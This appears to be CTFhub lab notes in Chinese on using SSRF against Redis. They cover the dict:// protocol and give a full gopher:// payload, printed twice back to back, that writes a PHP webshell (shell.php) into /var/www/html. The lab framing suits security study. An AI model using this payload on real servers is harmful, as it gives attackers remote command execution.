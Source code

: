    [SSRF漏洞中使用到的其他协议_0ak1ey的博客-CSDN博客](https://blog.csdn.net/qq_43665434/article/details/115434528)

   ```
   dict://ip:port/后接TCP/IP数据量
   
   向服务器的端口请求为【命令:参数】，并在末尾自动补上\r\n(CRLF)，为漏洞利用增加了便利
   dict协议执行命令要一条一条执行
   ```

### SSRF打redis

<u>*CTFhub --- web-ssrf-redis*</u>

#### Gopher

![img](daydayup.assets/1689445890678-9ea0f307-73ec-46e3-ae86-8755a0807333.png)

```c
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2434%0D%0A%0A%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0Agopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2434%0D%0A%0A%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```
